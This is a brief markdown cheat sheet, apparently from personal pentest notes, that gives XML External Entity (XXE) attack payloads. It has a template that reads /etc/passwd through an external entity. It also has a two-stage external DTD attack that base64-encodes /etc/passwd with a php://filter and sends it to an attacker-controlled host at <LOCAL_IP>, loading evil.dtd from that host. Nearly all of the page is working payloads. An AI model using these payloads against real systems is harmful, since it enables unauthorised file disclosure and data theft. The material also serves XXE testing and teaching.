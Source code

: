 ```yaml
---
title: "XXE (XML External Entity)"
date: 2024-7-5
tags: ["xxe", "xml", "dtd", "web"]
---
```


### XXE Template

```console
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY data SYSTEM "/etc/passwd">]>
<product>
    <id>&data;</id>
    <price></price>
</product>
```

### External DTD (2 stage)

```console
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://<LOCAL_IP>/data?%data;'>">
```

<br>

```console
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % bar SYSTEM "http://<LOCAL_IP>/evil.dtd">
        %bar;
        %eval;
]>
<product>
    <id>&exfil;</id>
    <price></price>
</product>
```
